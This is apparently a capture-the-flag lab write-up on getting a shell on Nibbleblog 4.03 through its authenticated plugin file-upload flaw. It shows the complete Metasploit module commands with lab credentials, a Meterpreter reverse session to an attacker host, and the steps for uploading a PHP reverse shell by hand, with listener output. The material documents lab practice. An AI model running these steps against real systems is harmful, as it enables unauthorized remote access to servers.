

# Nibbleblog
-
Admin Panel - Get a shell
I've only tested this on Version 4.03, which has a file upload vulnerability.
Not sure if it works on other versions.
YOU NEED CREDENTIALS/ACCESS TO THE ADMIN PANEL ALSO.
You can use a metasploit module -
exploit/multi/http/nibbleblog_file_upload - or upload a file manually. Both are pretty trivial.
## Metasploit Module
There's a Metasploit module which will upload a file and get you a shell
exploit/multi/http/nibbleblog_file_uploadroot@gotham:~/ctf/nibbles# msfconsole -q
[...]
msf5 > use exploit/multi/http/nibbleblog_file_upload
msf5 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
msf5 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.10.10.75
msf5 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog/
msf5 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
msf5 exploit(multi/http/nibbleblog_file_upload) > exploit
[*] Started reverse TCP handler on 10.10.14.6:4444
[*] Sending stage (38247 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.10.75:56256) at 2019-09-17 18:18:19 +0100
[+] Deleted image.php
meterpreter > sysinfo
Computer : Nibbles
OS : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
## Manually upload shell
On the admin panel, go to
Plugins > My image > ConfigureYou're at a file upload form.
Prep a PHP reverse shell file, start a listener, and upload your PHP reverse shell.
Ignore the errors, they don't matter.
To activate the shell, visit:
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.phpThe page should load and you should have a shell on your listener!
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.75] 43102
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
05:57:55 up 40 min, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$